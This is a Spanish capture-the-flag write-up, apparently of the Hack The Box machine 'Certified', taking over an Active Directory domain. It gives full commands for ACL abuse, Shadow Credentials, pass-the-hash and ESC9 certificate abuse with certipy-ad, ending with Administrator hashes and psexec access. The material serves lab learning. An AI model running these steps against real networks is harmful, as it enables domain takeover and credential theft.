Se parte de un escenario de compromiso inicial (``assumed breach``) en el que se dispone de credenciales válidas de dominio:
``judith.mader`` : ``judith09``

``sudo nmap 10.10.11.41 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



``nmap 10.10.11.41 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49683,49716,49740,55339 -oN target -Pn``




La combinación de servicios expuestos (``Kerberos``, ``LDAP``, ``SMB``, ``DNS``) indica claramente que el objetivo actúa como DC dentro de un entorno Active Directory.

Para comprobar la información recogida con ``nmap``:

``netexec smb 10.10.11.41``



Nombre de la máquina: ``DC01``

Dominio: ``certified.htb``

Se añade esta información al archivo ``/etc/hosts``:



Una técnica habitual cuando se dispone de credenciales válidas consiste en enumerar los usuarios del dominio a través del protocolo ``RPC``:

``rpcclient -U 'judith.mader%judith09' 10.10.11.41 -c 'enumdomusers' > rpcusers.txt``



Acto seguido, se realiza un tratamiento de los datos para generar un diccionario de usuarios, algo potencialmente útil para futuras tareas de enumeración o ataques de autenticación.

``cat rpcusers.txt | cut -d '[' -f2 | cut -d ']' -f1 > users.txt; cat users.txt``



Se sincroniza el reloj con el DC (``sudo ntpdate -u 10.10.11.41``) para evitar problemas relacionados con ``Kerberos`` y continuar con la enumeración de posibles vectores de ataque basados en este protocolo.

Dado que se dispone de credenciales válidas de dominio:

- Se comprueba la existencia de usuarios configurados con la opción `DONT_REQUIRE_PREAUTH`, susceptibles de ser explotados mediante ``AS-REP Roasting``, sin obtener resultados positivos.

- Se identifica una cuenta asociada a un ``SPN``, lo que permite solicitar su correspondiente ``TGS`` para evaluar la viabilidad de un ataque ``Kerberoasting``:

``impacket-GetUserSPNs -request -dc-ip 10.10.11.41 certified.htb/judith.mader``



No se consigue romper con ``hashcat`` y rockyou como diccionario (``hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force``).

Para obtener una visión completa de las relaciones de permisos dentro del dominio se utiliza  ``BloodHound``:

- Se levanta ``neo4j``: ``sudo neo4j start``
- Se levanta ``BloodHound``: ``bloodhound --no-sandbox &>/dev/null & disown``
- Se introducen las credenciales para acceder al dashboard.

- Se lanza el colector de ``BloodHound``: ``bloodhound-python -u 'judith.mader' -p 'judith09' -d certified.htb -c all -ns 10.10.11.41``



- Una vez recolectada la data, se suben los archivos generados (``.json``) en el dashboard de ``BloodHound``.

 - Se comienza marcando como ``owned`` al usuario comprometido, ``judith.mader``, para comenzar el análisis de rutas de ataque.

``BloodHound`` revela que el usuario comprometido posee el privilegio ``WriteOwner`` sobre el grupo ``management``:



Dicho privilegio permite modificar el propietario del objeto en Active Directory. Y aunque por sí solo no concede la capacidad de modificar la pertenencia al grupo, el propietario de un objeto tiene la facultad de alterar su ``DACL`` (``Discretionary Access Control List``), por lo que, indirectamente, resulta posible otorgarse permisos adicionales sobre dicho grupo.

En otras palabras, el privilegio ``WriteOwner`` puede utilizarse para obtener control efectivo sobre el objeto.

Continuando con el análisis, se observa que el grupo ``management`` posee el permiso ``GenericWrite`` sobre el usuario ``management_svc``:



Entre las técnicas que pueden derivarse de este permiso, destacan:

- ``Targeted kerberoasting``
- ``Shadow Credentials``

Aunque ``Targeted Kerberoasting`` es, generalmente, una alternativa viable, previamente no se consiguió recuperar la contraseña del usuario a partir de su ``TGS``, por lo que se optará por ``Shadow Credentials`` como vector principal de compromiso.

También se identifica que el usuario ``management_svc`` posee privilegios de acceso remoto sobre el DC:

Por tanto, comprometer esta cuenta permitiría obtener acceso interactivo a la máquina víctima mediante WinRM. Lo que, a su vez, en este contexto de CTF probablemente suponga la obtención de la flag de usuario.

Finalmente, si se continúa analizando la posible ruta de escalada de privilegios, se puede observar que el usuario ``management_svc`` tiene el permiso ``GenericAll`` sobre el usuario ``ca_operator``:

Esto se traduce en que se tendría el control absoluto sobre el usuario ``ca_operator``, por lo que, entre muchas cosas, se podría modificar su contraseña y comprometer dicho usuario para el compromiso posterior de ``ADCS`` (``Active Directory Certificate Services``).

Una vez enumerada la posible ruta de ataque, es el momento de pasar a la explotación.

- 1: Se comienza obteniendo el control efectivo del grupo ``management`` convirtiendo a ``judith.mader`` en la propietaria del mismo:

``impacket-owneredit -action write -new-owner 'judith.mader' -target management 'certified.htb'/'judith.mader':'judith09'``



- 2: Una vez se ha modificado el propietario, es posible modificar su ``DACL`` para otorgar el permiso ``WriteMembers``. Para realizar esta acción es necesario conocer el ``Distinguished Name`` del grupo. Esta información se puede observar desde ``BloodHound``:


``CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB``

``impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'``



Este permiso concede la capacidad de gestionar los miembros del grupo.

- 3: Una vez se ha otorgado al usuario comprometido el privilegio de añadir usuarios al grupo ``management``, añadimos a dicho usuario al grupo:

``net rpc group addmem "Management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41``

Dado que no hay output de este último comando que arroje cualquier tipo de error, se deduce que se ha resuelto satisfactoriamente. Con todo lo anterior, se heredan todos los privilegios asociados al grupo ``management``, incluyendo el permiso ``GenericWrite`` sobre ``management_svc``.

Para confirmar que el usuario comprometido, ``judith.mader`` forma parte del grupo ``management``, se puede hacer desde ``rpcclient``:

``rpcclient -U 'judith.mader%judith09' 10.10.11.41 -c 'enumdomgroups'``



Se extrae el ``rid`` del grupo ``management``: ``0x450``. Acto seguido se puede observar qué usuarios (en base a su ``rid``) forman parte de este grupo:

``rpcclient -U 'judith.mader%judith09' 10.10.11.41 -c 'querygroupmem 0x450'``



``0x44f`` y ``0x451``. Dado el output inicial de cuando se enumeraron usuarios del dominio, se conoce que el ``rid`` ``0x451`` corresponde al usuario ``management_svc`` y que el ``rid`` ``0x44f`` corresponde al usuario ``judith.mader``. No obstante, se puede confirmar nuevamente con ``rpcclient``:

``rpcclient -U 'judith.mader%judith09' 10.10.11.41 -c 'queryuser 0x44f'``



Se confirma que el usuario ``judith.mader`` forma parte del grupo ``management``.

Otra opción para comprobar si forma parte del grupo, tal vez más cómoda, sería:

``net rpc group members "Management" -U 'certified.htb/judith.mader%judith09' -S '10.10.11.41'``

Una vez se han realizado todo el procedimiento anterior, se puede continuar con la segunda fase de la explotación: hacer uso del privilegio ``GenericWrite`` sobre el usuario ``management_svc``.

Se realizará la técnica ``Shadow Credentials``, que consiste en abusar del atributo ``msDS-KeyCredentialLink`` con el objetivo de añadir una credencial arbitraria y controlada a dicho atributo. Este atributo es utilizado por ``Windows Hello for Business`` para almacenar credenciales basadas en claves públicas asociadas a una cuenta de AD, permitiendo autenticarse como la víctima sin conocer su contraseña ni modificarla.

Para ello se necesita las herramientas:
- ``pywhisker`` (``https://github.com/ShutdownRepo/pywhisker``)
- ``gettgtpkinit.py`` y ``getnthash`` (``https://github.com/dirkjanm/PKINITtools``)

``python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"``



``Must be used with password: ttj44ETfpt6U40LgyaaD``

La herramienta inserta una nueva entrada en el atributo ``msDS-KeyCredentialLink`` y genera un certificado.

A partir de este momento es posible autenticarse como ``management_svc`` mediante ``PKINIT``.

Para continuar en la explotación y poder utilizar el certificado generado para obtener un ``TGT`` del usuario víctima, se hace uso de la herramienta ``gettgtpkinit.py``:

``python3 gettgtpkinit.py -cert-pfx YmX775UI.pfx -pfx-pass ttj44ETfpt6U40LgyaaD certified.htb/management_svc ccache``



Se obtiene un ``TGT`` válido para el usuario ``management_svc``. Y además, la herramienta devuelve la clave de cifrado asociada al AS-REP (``AS-REP encryption key``), necesaria para recuperar posteriormente el hash NTLM de la cuenta mediante la herramienta ``getnthash.py`` (del repositorio anterior, ``PKINITtools``).

``AS-REP encryption key``: ``eaf4a6bbe0f7539222c35560aa16b45d2bb99226d7d813f7b3676432b88fba89``

- Primero se debe exportar el ``TGT`` a la variable ``KRBCCNAME``:

``export KRBCCNAME=./ccache``

- Acto seguido se recupera el hash NTLM con ``getnthash.py``:

``python3 getnthash.py -k 'eaf4a6bbe0f7539222c35560aa16b45d2bb99226d7d813f7b3676432b88fba89' -dc-ip 10.10.11.41 certified.htb/management_svc``



Con este hash NTLM (``a091c1832bcdd4677c28b5a6a1295584``) es posible realizar ataques Pass The Hash contra los servicios accesibles por la cuenta.

Se comprueba la validez de este hash NTLM con ``netexec``:

``netexec smb 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'``



Se confirma que es un hash NTLM válido. A su vez, se confirma la información obtenida anteriormente con ``BloodHound`` de que el usuario recientemente comprometido puede hacer uso de WinRM para conectarse a la máquina víctima:

``netexec winrm 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'``



Dado el output: ``(Pwn3d!)``, se confirma.

Se hace uso de las credenciales obtenidas para conseguir acceso a la máquina víctima mediante la técnica Pass The Hash:

``evil-winrm -i 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'``



Se consigue acceso a la máquina víctima con el usuario ``management_svc``.

Una vez dentro, en el escritorio del usuario comprometido (``C:\Users\management_svc\Desktop``) se puede recoger la flag de usuario: 



# PRIVESC

Una vez se ha conseguido acceso a la máquina víctima, se continúa con el vector de escalado que previamente se enumeró desde ``BloodHound``: el usuario ``management_svc`` tiene el privilegio ``GenericAll`` sobre el usuario ``ca_operator``. 



Una de las formas más sencillas de explotar este privilegio consiste en modificar la contraseña del usuario víctima a una completamente arbitraria.

Dado que no se conoce la contraseña del usuario ``management_svc``, pero sí su hash NTLM, se puede proceder haciendo uso, nuevamente, de Pass The Hash.



HASH: ``ffffffffffffffffffffffffffffffff:a091c1832bcdd4677c28b5a6a1295584``

Se procede a la modificación de la contraseña del usuario víctima:

``pth-net rpc password 'ca_operator' 'test123!' -U 'certified.htb'/'management_svc'%'ffffffffffffffffffffffffffffffff:a091c1832bcdd4677c28b5a6a1295584' -S 10.10.11.41``

Si se comprueban las credenciales modificadas del usuario con ``netexec``:

``netexec smb 10.10.11.41 -u 'ca_operator' -p 'test123!'``



Tras verificar las nuevas credenciales del usuario comprometido, se continúa con la enumeración de ``ADCS`` mediante la herramienta ``certipy-ad`` para identificar configuraciones potencialmente vulnerables:

``certipy-ad find -vulnerable -username ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout``




La salida revela una plantilla vulnerable (``CertifiedAuthentication``) emitida por ``certified-DC01-CA``. A su vez, ``certipy-ad`` identifica el escenario como ``ESC9: Operator ca can enroll and template has no security extension``

La plantilla vulnerable no incluye la extensión de seguridad de objeto SID (``szOID_NTDS_CA_SECURITY_EXT``), una medida introducida por Microsoft para mitigar determinados abusos de mapeo de identidades en ``ADCS``.

Como consecuencia, durante el proceso de autenticación basado en certificados, AD resuelve la identidad del usuario principalmente a partir del valor presente en el campo ``UPN`` (``User Principal Name``) incluido en el certificado.

A su vez, dado que el usuario ``management_svc`` posee ``GenericAll`` sobre ``ca_operator``, es posible modificar temporalmente su ``UPN`` para hacerlo coincidir con ``Administrator``.

O dicho con otras palabras, el ataque consiste en conseguir que una cuenta bajo nuestro control, modificando previamente su ``UPN``, obtenga un certificado cuya identidad indique ``Administrator``. Debido a la ausencia de la extensión SID en la plantilla vulnerable, AD asociará dicho certificado a la cuenta privilegiada (``Administrator``) durante el proceso de autenticación, lo que permitirá la extracción del hash NTLM del usuario ``Administrator`` real y posterior Pass The Hash.

- 1: Se modifica temporalmente el ``UPN`` del usuario ``ca_operator``:

``certipy-ad account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator``



Aunque sigue siendo la misma cuenta de AD, ahora su ``UPN`` es ``Administrator``.

- 2: Una vez se ha modificado el UPN del usuario comprometido, se solicita un certificado del mismo utilizando la plantilla vulnerable: 

``certipy-ad req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41``



Debido a la configuración insegura de la plantilla, el certificado emitido contiene la identidad ``administrator``.

- 3: Para minimizar el impacto sobre el entorno y evitar inconsistencias, se restaura el ``UPN`` original del usuario ``ca_operator``:

``certipy-ad account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb``

- 4: Finalmente, se utiliza el certificado obtenido para autenticarse como ``Administrator`` y conseguir su hash NTLM:

``certipy-ad auth -pfx administrator.pfx -domain certified.htb``



Hash NTLM: ``0d5b49608bbce1751f708748f67e2d34``

Se verifica la validez del hash con ``netexec``:

``netexec smb 10.10.11.41 -u 'Administrator' -H ':0d5b49608bbce1751f708748f67e2d34'``



``Pwn3d!``, por lo que se utiliza ``psexec`` mediante Pass The Hash para acceder a la máquina víctima:

``impacket-psexec Administrator@10.10.11.41 -hashes ':0d5b49608bbce1751f708748f67e2d34'``

